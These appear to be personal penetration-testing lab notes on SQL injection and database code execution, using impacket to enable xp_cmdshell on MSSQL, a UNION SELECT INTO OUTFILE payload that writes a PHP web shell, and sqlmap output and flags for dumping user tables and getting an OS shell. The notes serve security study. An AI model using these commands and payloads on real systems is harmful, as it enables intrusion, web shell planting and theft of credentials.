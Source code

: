 # Manual Code Execution

```
kali@kali:~$ impacket-mssqlclient Administrator:Password123!@192.168.250.7 -windows-auth
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```

now we have xp_cmdshell enabled we can execute commands

```
SQL> EXECUTE xp_cmdshell 'whoami';
output

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

nt service\mssql$sqlexpress

NULL
```

windows cmd execution can be upgraded to a reverse shell.



mysql has SELECT INTO_OUTFILE into a web directory for php eg:

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

# Automating the Attack

```
kali@kali:~$ sqlmap -u http://192.168.250.7/blindsqli.php?user=1 -p user
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.4#stable}
|_ -| . [)]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

...
[*] starting @ 06:15:24 PM /2025-01-01/

[18:15:24] [INFO] resuming back-end DBMS 'mysql'
[18:15:24] [INFO] testing connection to the target URL
got a 302 redirect to 'http://192.168.250.7:80/login1.php?msg=2'. Do you want to follow? [Y/n]
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=fbf1f5fa5fc...a7266cba36'). Do you want to use those [Y/n]
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: user (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: user=1' AND (SELECT 1582 FROM (SELECT(SLEEP(5)))dTzB) AND 'hiPB'='hiPB
---
[18:15:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP, PHP 7.3.33, Apache 2.4.52
back-end DBMS: MySQL >= 5.0.12
[18:15:27] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/192.168.250.7'

[*] ending @ 06:15:27 PM /2025-01-01/
```

so you could get automation and cmd execution using the `--os-shell` parameter

```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```

I like to use `-r req.txt` from a burp request,

`-p item` to specify which parameter to search on

`--risk 3` high risk and high level mean more tests are undertaken

`--level 5` high risk and high level mean more tests are undertaken

`--sql-query=` at a time i need customisation over which sql query i want to run

`--databases` to find the databases

`-D webapp` say we found one called `webapp` - this specifies which database to use

`--tables` then dump a list of tables in the specified database

`-T users` then specify table such as `users`

`--dump` then dump all out of `users` or run `sql-query` with `select username,password from users`

`os-shell` can lead to a mysql os-shell with a php file as an intermediary, which can then be used to geta full reverse shell.

